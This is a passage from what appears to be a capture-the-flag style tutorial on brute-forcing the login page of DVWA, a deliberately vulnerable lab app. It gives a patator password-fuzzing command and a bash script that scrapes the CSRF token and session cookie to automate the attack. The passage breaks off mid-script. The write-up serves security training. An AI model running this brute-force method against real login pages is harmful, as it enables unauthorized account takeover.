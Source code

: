 Now here is where we look back at our Burp Suite requests (see, there was a reason I made us use Burp Suite first). 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/601ffb71288b2a7db8a30375/room-content/a46a2f4f3c734dfb215a068c3a77524c.png)  
So using what we know we can construct the following command:

```
patator http_fuzz method=POST \

url="http://10.10.101.155/login.php" \

body="username=admin&password=password&Login=Login&user_token=21e0ad6d56fa24f77647ef7dabd21be8" \

header="Cookie: PHPSESSID=lq805gkohiamc501riahr6jltk; security=impossible" \

-x quit:fgrep!=login.php
```
  

The url, body, and header fields can be copied directly from the Burp Suite window. The quit condition is checking that the returned response does not

contain the text _login.php_.

  

But we're still missing a couple of steps before we can use this to brute force the page:

-   We need to add in our payload so we can incrementally swap out the password each time with one from our list.
-   We don't want to be re-sending the same _user_token_ and _Cookie_ value.

Thankfully, with a bit of bash magic, we can create a script to dynamically generate those values for us - And we don't even have to do all the heavy lifting ourselves, thanks to [g0tm1lk](https://blog.g0tmi1k.com/dvwa/login/) . We can take the script they've made and adapt it for our own brute force attempts. Our script should now look like this:

```
IP=10.10.101.155

  

CSRF=$(curl -s -c dvwa.cookie "${IP}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)

  

SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')

  

echo "The CSRF is: $CSRF"

  

echo "The PHPSESSID is: $SESSIONID"

  

patator http_fuzz method=POST --threads=64 timeout=10 \

url="http://${IP}/login.php" \

0=passwords.txt \

body="username=admin&password=FILE0&Login=Login&user_token=${CSRF}" \

header="Cookie: PHPSESSID=${SESSIONID}; security=impossible" \
```